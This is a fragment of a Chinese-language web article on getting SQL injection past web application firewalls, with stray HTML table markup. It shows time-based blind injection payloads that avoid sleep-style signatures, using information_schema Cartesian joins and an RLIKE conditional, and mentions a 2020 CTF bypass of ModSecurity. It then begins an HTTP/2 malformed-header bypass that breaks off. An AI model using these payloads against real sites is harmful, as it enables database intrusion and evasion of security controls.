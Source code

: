 <td style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 14px;padding: 0.25em 0.5em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="" style="font-size: 16px;">6%</span></section></td></tr></tbody></table>  
### 六、时间盲注升级：非睡眠触发  
  
**传统方式风险**  
：  

```
BENCHMARK(5000000,MD5('test'))  // 被WAF标记特征
```

  
**替代方案**  
：  

```
/* 大表笛卡尔积 */
(SELECT count(*) FROM information_schema.tables A, 
 information_schema.tables B, 
 information_schema.tables C)

/* 正则消耗 */
WHERE 1=IF(condition, RLIKE('^.*$'),0)
```

  
**真实场景**  
：  
- • 2020年0CTF：使用
```
exp(1000)
```

  
替代
```
sleep()
```

  
绕过ModSecurity  
  
### 七、协议层绕过：HTTP/2特性  
  
**攻击步骤**  
：  
1. 1. 建立HTTP/2连接  
  
1. 2. 发送畸形的HEADERS帧：
```
:method: POST
:path: /search
content-type: application/x-www-form-urlencoded
```
